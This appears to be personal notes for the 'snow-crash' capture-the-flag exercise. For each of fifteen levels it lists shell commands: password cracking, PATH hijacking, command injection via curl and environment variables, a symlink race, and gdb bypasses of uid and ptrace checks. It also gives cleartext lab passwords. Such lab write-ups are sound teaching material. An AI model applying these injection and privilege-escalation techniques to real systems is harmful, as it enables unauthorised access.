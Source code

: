 # snow-crash

# Levels:

## 0.
getent passwd
ll -R / 2>dev/null | grep flag00
find / -user flag00 2>/dev/null

cat /usr/sbin/john
su flag00
getflag
su level01

## 1.
find / -name 'passwd' 2>/dev/null
cat /etc/passwd | grep flag01
scp -P 5000 level00@192.168.56.1:/../../../etc/passwd . # scp - secure copy
.\Downloads\john\run\john.exe --show .\passwd

## 2.
scp -P 5000 scp://level02@localhost/level02.pcap C:/Users/Vlad/snow-crash
chmod 777 level02.pcap 
# open Wireshark -> any TCP packet -> follow -> TCP Stream : ft_waNDReL0L
tcpdump -n -r level02.pcap -Xq

## 3.
ll # level03 can execute other commands with high privelage
ltrace ./level03
env # the list of environmental variables
echo getflag > /tmp/echo && chmod +x /tmp/echo # aliasing getflag
export PATH=/tmp:$PATH # start from the directory with alias
./level03

## 4.
netstat -tl
curl localhost:4747?x=\`getflag\`
curl 'localhost:4747?x=`getflag`'

## 5.
find / -name 'level05'  2>/dev/null
env

cat /var/mail/level05 # open crontab file
cat $MAIL

cat  /usr/sbin/openarenaserver
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && sleep 121 && cat /tmp/flag 
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && cat /tmp/flag 

## 6.
echo '[x {${exec(getflag)}}]' > /tmp/boo ; ./level06 /tmp/boo
echo '[x ${`getflag`}]' > /tmp/boo ; ./level06 /tmp/boo

## 7.
ltrace ./level07
echo $LOGNAME
export LOGNAME=\`getflag\` ; ./level07
export LOGNAME='$(getflag)' ; ./level07

## 8.
ltrace ./level08 token
ln -s token my_tok && ./level08 my_tok
su flag08 #quif5eloekouj29ke0vouxean
getflag

## 9.
scp -P 5000 scp://level09@localhost/token C:/Users/Vlad/snow-crash

su flag09 F3iji1ju5yuevaus41q1afiuq
getflag

## 10.
strings ./level10 | grep 'Connecting' # shows the port
while true; do ln -fs ~/level10 /tmp/fake; ln -fs ~/token /tmp/fake; done # alternation of links between two files
while true; do ./level10 /tmp/fake 127.0.0.1; done # using binary
nc -l 6969 

## 11.
cat level11.lua
nc -zv localhost 5151 # scan if port is open, not necessary, -z - port scanning
nc localhost 5151 # create TCP connection
; getflag > /tmp/f11 # send in password

$(getflag) > /tmp/f11 # send in password
cat /tmp/f11

## 12.
echo "getflag > /tmp/token" > /tmp/XX && chmod +x /tmp/XX
curl  http://localhost:4646?x='$(/*/XX)'
#curl http://localhost:4646?x=\`/*/XX\`

cat /tmp/token

## 13.
./ltrace ./level13
id # get your id
objdump -d level13

gdb ./level13
b getuid
r # run

set $eax=4242 # or 0x1092 - change register
c # continue

#or
jump *0x80485cb

## 14.
cat /etc/passwd # get the number of the level
id

gdb getflag
disass main

b *(main + 72) # overcome prtace defence
b *(main + 444) # put correct ID in eax
r
info register $eax # -1
set $eax=0
n # next step
set $eax=3014
c